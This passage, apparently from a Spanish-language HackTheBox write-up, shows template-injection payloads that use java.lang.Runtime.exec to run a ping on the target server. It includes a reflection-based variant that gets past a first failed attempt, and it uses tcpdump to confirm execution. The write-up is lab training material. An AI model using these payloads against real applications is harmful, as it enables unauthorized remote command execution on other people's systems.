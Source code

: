 Concretamente seria este el comando:

```java
${T(java.lang.Runtime).getRuntime().exec('ping 10.10.X.X')}
```

Pero no lo interpreta, no te desanimes que no es la única forma de hacerlo he aquí otra forma de hacerlo 

Para comprobar que funcione lo que debemos de hacer es ponernos en escucha por la interfaz que estamos usando para la VPN de HackTheBox y filtrar por la traza **icmp**

```bash 
tcpdump -i tun0 icmp -n
```

Y ahora si lanzamos el ping a nuestra maquina:

```java 
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('ping 10.10.X.X')}
```

Y como veremos ha funcionado:

![paste](./images/20.jpeg)


![paste](./images/21.jpeg)
